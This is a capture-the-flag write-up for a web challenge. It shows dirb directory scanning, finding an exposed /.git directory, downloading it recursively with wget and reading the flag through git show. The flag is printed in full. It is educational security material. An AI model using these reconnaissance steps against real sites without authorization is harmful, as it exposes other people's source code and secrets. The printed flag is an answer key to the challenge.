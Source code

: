# WH02
## BRIEFING
Access the site at https://cfta-wh02.allyourbases.co and find a way to get the flag.

## Solution

I did not get this one during the competition. Later I realized that the main page of the site included a big hint by mentioning version control.

<img src="wh02.png" width="600">

If we use `dirb`on the site, we find the crucial directory almost immediately, that is, a `/.git` directory:

```console
root@osboxes:/usr/share/wordlists/dirbuster# dirb https://cfta-wh02.allyourbases.co/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Apr 18 22:03:43 2021
URL_BASE: https://cfta-wh02.allyourbases.co/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: https://cfta-wh02.allyourbases.co/ ----
+ https://cfta-wh02.allyourbases.co/.git/HEAD (CODE:200|SIZE:23)  
```

we can use `wget` to pull the exposed git repo via `wget -r https://cfta-wh02.allyourbases.co/.git/`. The `-r` turns on recursive retrieving.

I was able to find the flag by using the `git show` command from the command line:

```
root@osboxes:~/Downloads/wh02/cfta-wh02.allyourbases.co/.git# git show
commit 278b83e3c9dfe29f7eb7fdafd4765532c2a1fbc6 (HEAD -> master)
Author: Joe Bloggs <j.bloggs@allyourbases.io>
Date:   Sun Mar 7 12:40:54 2021 -0800

    Production version.

diff --git a/index.html b/index.html
index 29a1428..edb4ed2 100644
--- a/index.html
+++ b/index.html
@@ -1,9 +1,18 @@
 <html>
     <head>
-        <title>TEST</title>
+        <title>Coding Standards - Best Practices</title>
     </head>
     <body>
-        <!-- Testing site infrastrucure. No one is going to see this anyway.-->
-        <div>Lorem ipsum dolor sit amet, consectetur adipiscing elit. Sed pellentesque, mauris sit amet convallis auctor, felis quam viverra felis, quis tempor lectus tortor ut eros. Maecenas eget dapibus lacus. Donec scelerisque risus ac neque congue, et congue justo posuere. Quisque et sem odio. Sed non egestas ante. Etiam nec nibh ac arcu maximus lobortis in nec nisi. Curabitur sed tellus pretium, hendrerit nulla sed, finibus purus.</div>
+        <h1>Coding Standards - Best Practices</h1>
+        <ol>
+            <li>Use consistent indentation.</li>
+            <li>Follow the DRY principle.</li>
+            <li>Avoid deep nesting.</li>
+            <li>Limit line length.</li>
+            <li>Avoid putting all your code into one or two files.</li>
+            <li>Consistent naming conventions.</li>
+            <li>Keep your code simple.</li>
+            <li>Use version control!</li>
+        </ol>
     </body>
 </html>
\ No newline at end of file
diff --git a/setup.sh b/setup.sh
deleted file mode 100644
index dc5e9b1..0000000
--- a/setup.sh
+++ /dev/null
@@ -1,8 +0,0 @@
-#!/bin/bash
-
-FLAG="giTisAGreat_ResoURCe8337"
-
-cd build
-cp ../sitedata.zip sitedata.zip
-unzip sitedata.zip
-
```

The flag is **giTisAGreat_ResoURCe8337**.
